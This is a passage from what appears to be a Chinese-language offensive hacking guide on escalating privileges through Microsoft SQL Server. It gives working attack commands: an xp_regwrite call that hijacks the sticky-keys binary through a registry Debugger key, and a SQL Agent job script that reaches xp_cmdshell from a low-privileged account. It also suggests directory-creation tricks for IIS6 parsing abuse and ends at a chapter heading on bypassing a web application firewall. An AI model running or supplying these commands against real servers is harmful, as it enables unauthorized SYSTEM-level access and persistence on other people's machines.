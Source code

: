 引用前辈们的话

>1，Access可以调用VBS的函数，以System权限执行任意命令
>2，Access执行这个命令是有条件的，需要一个开关被打开
>3，这个开关在注册表里
>4，SA是有权限写注册表的
>5，用SA写注册表的权限打开那个开关
>6，调用Access里的执行命令方法，以system权限执行任意命令执行SQL命令，执行了以下命令


# 0x03 xp_regwrite

修改注册表 来劫持粘贴键 当然在2008数据库是不成立的 因为默认权限很低

```

exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Image File Execution
Options\sethc.EXE','Debugger','REG_SZ','C:\WINDOWS\explorer.exe';

```


### 0x04 pulic

这种pulic提权 实际情况也很少吧,也是提一下了

```
USE msdb
EXEC sp_add_job @job_name = 'GetSystemOnSQL', www.2cto.com
@enabled = 1,
@description = 'This will give a low privileged user access to
xp_cmdshell',
@delete_level = 1
EXEC sp_add_jobstep @job_name = 'GetSystemOnSQL',
@step_name = 'Exec my sql',
@subsystem = 'TSQL',
@command = 'exec master..xp_execresultset N''select ''''exec
master..xp_cmdshell "dir > c:\agent-job-results.txt"'''''',N''Master'''
EXEC sp_add_jobserver @job_name = 'GetSystemOnSQL',
@server_name = 'SERVER_NAME'
EXEC sp_start_job @job_name = 'GetSystemOnSQL'

```


mssql众多的储存过程是我们利用的关键 当然还有很多可能没被提出，需要自己的发现，比如在遇到iis6的拿不了shell还有个上传可以跳目录，不妨试试xp_create_subdir
建立个畸形目录解析。


# 第九章 MSSQL—bypass安全狗


### 0x00 简介
